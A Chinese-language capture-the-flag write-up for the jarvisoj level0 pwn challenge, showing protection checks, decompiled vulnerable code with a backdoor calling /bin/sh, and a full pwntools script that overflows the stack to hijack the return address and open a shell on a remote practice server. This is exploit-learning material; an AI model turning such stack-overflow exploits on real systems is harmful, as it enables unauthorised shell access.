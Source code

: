 ```yaml
---
title: jarvisoj_level0
date: 2022-07-08 12:56:46
permalink: /pages/a30b5f/
categories:
  - 网络安全
  - pwn
tags:
  - 
author: 
  name: jimmy
  link: https://github.com/Riam-jimmy
---
```

# jarvisoj level0

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec level0
[*] '/root/level0'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数输出了一句`Hello, World`，接着调用`vulnerable_function`函数，该函数如下

```c
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}
```

查找函数表发现后门函数`callsystem`

```c
int callsystem()
{
  return system("/bin/sh");
}
```



## 思路分析

1. 目前信息
   - 栈上变量`buf`处可写入`0x200`字节数据
   - `buf`距离返回地址的偏移为`0x80+8`
3. 思路
   - 可写入字节数已经大于偏移量，可直接进行栈溢出将返回地址修改为后门函数的地址

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level0/level0'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 27710)
padding = 0x80+8
backdoor = 0x40059A
io.recv()
payload = flat(['a'*padding, backdoor])
io.sendline(payload)
io.interactive()
```